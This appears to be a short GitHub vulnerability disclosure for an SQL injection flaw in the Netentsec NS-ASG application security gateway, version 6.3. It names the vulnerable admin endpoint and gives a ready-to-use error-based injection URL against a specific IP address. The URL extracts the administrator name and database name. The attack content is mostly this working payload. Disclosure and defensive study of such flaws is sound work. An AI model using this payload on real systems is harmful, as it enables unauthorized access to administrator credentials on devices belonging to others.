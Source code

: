 Beijing Wangkang Technology Co., Ltd. is a leading provider of network application management equipment in China, focusing on the latest trend research and analysis in the field of network application management. It provides users with advanced network application management technology, products, and solutions, aiming to help users achieve the goal of "using the internet well" in network management.

There is an SQL injection vulnerability in the Netcom NS-ASG application security gateway. Attackers exploit vulnerabilities to cause harm to servers.

official： https://www.netentsec.com/

version:6.3

Vulnerability Path ： /admin/config_ISCGroupSSLCert.php


https://1.85.53.53/admin/config_ISCGroupSSLCert.php?GroupId=1%20and%20extractvalue(0x1,%20concat(0x1,%20(select%20concat(adminname,%200x7e,%20database())%20from%20Admin%20limit%201)))



<img width="712" alt="图片" src="https://github.com/hundanchen69/cve/assets/124319989/73fe89ce-3ece-4f61-b521-0679151a53ec">



